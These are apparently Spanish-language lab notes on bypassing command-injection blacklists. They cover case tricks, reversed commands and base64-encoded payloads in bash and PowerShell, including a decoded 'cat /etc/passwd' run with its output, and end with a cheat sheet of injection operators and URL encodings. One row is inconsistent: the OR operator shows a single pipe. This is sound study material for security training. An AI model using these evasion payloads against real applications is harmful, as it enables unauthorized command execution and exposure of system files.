 Este comando utiliza espacios por lo que habría que ir al bypassing de blacklisted space.

Otros comandos que se pueden utilizar igual sería:
```bash
$(a="WhOaMi";printf %s "${a,,}")
```


#### Reversed commands

Para poder bypassear una blacklist de comandos podemos hacer un reverse, dar la vuelta al orden de las letras. En lugar de poner whoami usar imaohw.

```shell-session
21y4d@htb[/htb]$ $(rev<<<'imaohw')

21y4d
```

Lo mismo se puede hacer en windows.
```powershell-session
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"

21y4d
```

#### Encoded commands

También se puede encodear los comandos, por ejemplo en base64 o en hexadecimal(xxd).

```shell-session
Astharot15@htb[/htb]$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```
(En este ejemplo se utiliza < para evitar usar |)

Si tenemos alguno de los comandos filtrados podemos usar el blacklisted commands bypass o utilizar en lugar de bash, sh y openssl en lugar de base64.

En WINDOWS se haría de las misma forma.
```powershell-session
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"

21y4d
```




### Cheat-sheet

## Injection Operators

|**Injection Operator**|**Injection Character**|**URL-Encoded Character**|**Executed Command**|
|---|---|---|---|
|Semicolon|`;`|`%3b`|Both|
|New Line|`\n`|`%0a`|Both|
|Background|`&`|`%26`|Both (second output generally shown first)|
|Pipe|`\|`|`%7c`|Both (only second output is shown)|
|AND|`&&`|`%26%26`|Both (only if first succeeds)|
|OR|`\|`|`%7c%7c`|Second (only if first fails)|
|Sub-Shell|` `` `|`%60%60`|Both (Linux-only)|
|Sub-Shell|`$()`|`%24%28%29`|Both (Linux-only)|